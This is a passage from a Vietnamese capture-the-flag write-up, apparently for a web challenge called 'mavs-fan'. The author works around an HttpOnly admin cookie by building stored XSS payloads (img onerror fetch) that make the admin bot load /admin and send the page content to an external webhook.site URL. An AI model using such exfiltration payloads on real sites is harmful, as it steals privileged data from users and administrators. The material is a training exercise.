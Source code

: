 Lúc đầu thì mình định lấy cookie của admin nhưng mà sau khi đọc note của challenge `Note that the admin cookie is HttpOnly!` thì mình biết là không đọc được. Lúc này mình suy nghĩ một hồi thì chỉ cần redirect con bot vào trang /admin và lấy content thôi. Vì flag cũng nằm trên content web đó mà/ 

Nên mình sẽ xây dựng được payload như sau 

```html
<img src=x onerror="fetch('https://mavs-fan.chall.lac.tf/admin').then(response => response.text()).then(data => console.log(data))" />
```

Khi chạy thì ta lấy được content của page như sau 

![image](./images/image32.png)

Sau đó mình xây dựng payload để catch webhook như sau. Vì một số vấn đề về newline nên mình sẽ sử dụng JSON.stringify để format cái data mình nhận.

```html
<img src=x onerror="fetch('https://mavs-fan.chall.lac.tf/admin').then(response => response.text()).then(data => fetch('https://webhook.site/e5799148-b55d-49e8-b89b-987a28176905/?content='+JSON.stringify(data)))" />
```

Và mình lấy được content của page
